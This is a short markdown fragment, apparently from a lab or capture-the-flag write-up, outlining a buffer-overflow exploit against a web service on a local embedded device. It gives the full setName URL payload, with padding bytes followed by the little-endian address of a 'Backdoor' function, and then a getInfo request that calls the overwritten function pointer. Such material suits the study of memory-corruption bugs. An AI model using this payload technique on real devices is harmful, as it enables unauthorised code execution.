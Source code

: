 ## Scenario

Global variable: projectName -> Buffer overflow -> Overwrite functionInformation.funcPtr -> Call getInfo to run  functionInformation.funcPtr pointer

Ex)

Backdoor function (_Z8Backdoorv): 400d1dcc -> %cc%1d%0d%40

http://192.168.4.1/setName?name=%C1%C2%C3%C4%C5%C6%C7%C8%C9%CA%CB%CC%CD%CE%CF%cc%1d%0d%40

_Z8Backdoorv
400d1dcc

Call getInfo:
http://192.168.4.1/getInfo


